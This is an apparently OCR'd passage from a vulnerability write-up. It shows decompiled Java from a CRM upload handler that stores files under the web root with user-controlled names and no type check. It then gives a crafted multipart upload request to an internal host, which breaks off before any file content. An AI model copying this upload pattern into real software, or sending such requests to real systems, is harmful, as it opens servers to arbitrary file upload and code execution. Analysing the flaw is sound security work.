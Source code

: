 ```java
/* 236 */     pd.put("create_time", create_time);
/* 237 */     String filePath = null;
/* 238 */     String filename = null;
/*     */     
/* 240 */     String savePath = request.getSession().getServletContext().getRealPath("/uploadFiles/file");
/* 241 */     File targetFile = new File(savePath);
/*     */     
/* 243 */     if ((!targetFile.exists()) && (!targetFile.isDirectory())) {
/* 244 */       targetFile.mkdirs();
/*     */     }
/*     */     try {
/* 247 */       if (!file.isEmpty()) {
/* 248 */         int fileSize = (int)file.getSize() / 1024 / 1024;
/* 249 */         if (fileSize > 50) {
/* 250 */           throw new Exception("文件过大，上传失败");
/*     */         }
/*     */         
/* 253 */         String fileOriginalName = file.getOriginalFilename();
/* 254 */         if (fileOriginalName.contains("\\")) {
/* 255 */           fileOriginalName = fileOriginalName.substring(fileOriginalName.lastIndexOf("\\") + 1);
/*     */         }
/* 257 */         filePath = savePath + File.separator + ReportTool.formateDate(DateFormatUtils.format(new Date(), "yyyyMMdd")) + "_" + "version_" + version + "_" + fileOriginalName;
/*     */         
/* 259 */         filename = ReportTool.formateDate(DateFormatUtils.format(new Date(), "yyyyMMdd")) + "_" + "version_" + version + "_" + fileOriginalName;
/*     */         
/* 261 */         file.transferTo(new File(filePath));
/*     */         
/* 263 */         pd.put("dataName", dataName);
/* 264 */         pd.put("filePath", "uploadFiles/file/" + filename);
```
构造的上传包
```java
POST /crm/dataFile/insertData HTTP/1.1
Host: 10.0.17.56:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------108828876119442207182232566441
Content-Length: 289098
Origin: http://10.0.17.56:8080
Connection: close
Referer: http://10.0.17.56:8080/crm/dataFile/doAdd?inst_code=YH002105&inst_type=YH
Cookie: JSESSIONID=E87BE2853FFA30FD6E04B38A5023E6A4; loginname=crmtest

-----------------------------108828876119442207182232566441
Content-Disposition: form-data; name="inst_code"

YH002105
-----------------------------108828876119442207182232566441
Content-Disposition: form-data; name="inst_type"

YH
-----------------------------108828876119442207182232566441
Content-Disposition: form-data; name="dataName"

360
```
